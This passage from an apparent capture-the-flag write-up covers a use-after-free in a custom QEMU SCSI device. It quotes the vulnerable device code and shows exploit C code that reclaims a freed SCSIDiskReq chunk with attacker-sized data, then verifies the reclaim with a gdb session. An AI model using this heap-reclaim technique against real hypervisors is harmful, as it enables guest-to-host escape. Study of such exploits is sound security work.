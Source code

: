 Now we need to reclaim the data. The chunk that was just freed was a `SCSIRequest`, specifically a `SCSIDiskReq` (same struct with some extra data at the end), which has a size of `0x1f8`.  
I chose to use the allocation made in `ctf_add_cmd_data` (irrelevant code excluded):
```c
void ctf_add_cmd_data(CTFState* state, uint64_t val) {
    uint64_t addr = state->register_a | state->register_b; // this actually involved shifting 32, but theyre ints, so did nothing...
    if (!(state->state & ST_DATA_WRITTEN_TO_DMA)) {
        if (!state->dma_buf) {
            state->dma_buf = malloc(val); // arbitrary size
            if (state->dma_buf)
                cpu_physical_memory_read(addr, state->dma_buf, val); // arbitrary data
        }
    }
}
```
The only problem is we've set the `ST_DATA_WRITTEN_TO_DMA` bit in `state->state` and `state->dma_buf` is nonzero.
We can fix this by processing the scsi command reply in `ctf_process_reply` (irrelevant code excluded):
```c
void ctf_process_reply(CTFState* state) { 
    uint64_t addr = state->register_a | state->register_b;
    if (state->state & ST_DATA_WRITTEN_TO_DMA && addr && state->dma_buf) {
        state->state ^= ST_DATA_WRITTEN_TO_DMA;
        free(state->dma_buf);
        state->dma_buf = 0;
    }
}
```

So first we process the first request's reply, then add command data to reclaim the freed `state->cur_req`
```c
// process reply to free dma buffer so we can add cmd data
reply = kmalloc(0x1734, GFP_KERNEL);
get_reply(reply);
kfree(reply);

pl = kmalloc(uaf_sz, GFP_KERNEL);
memset(pl, 0x41, uaf_sz);
add_cmd_data(pl, uaf_sz); // reclaim freed state->cur_req
```

Using a quick gdb script we can verify we've reclaimed the chunk:
```gdb
file ./qemu-system-x86_64
aslr on

#right after malloc() and cpu_physical_memory_read()
b *ctf_add_cmd_data+0xb2

r --enable-kvm -L ./dependences -initrd ./dbgrootfs.cpio.gz -kernel ./vmlinuz-4.13.0-38-generic -append 'console=ttyS0 root=/dev/ram oops=panic panic=1' -m 56M --nographic -device ctf-scsi,id=bus0 -d0

set $state = *(CTFState**)($rbp-0x10)
set $cur_req = $state->cur_req
tele $cur_req
```
```gdb
Thread 4 "qemu-system-x86" hit Breakpoint 1, ctf_add_cmd_data (opaque=0x560cc3610b40, val=0x1f8) at hw/scsi/ctf.c:230
230 hw/scsi/ctf.c: No such file or directory.
0000| 0x7fbbd0332b90 ('A' <repeats 200 times>...)
0008| 0x7fbbd0332b98 ('A' <repeats 200 times>...)
```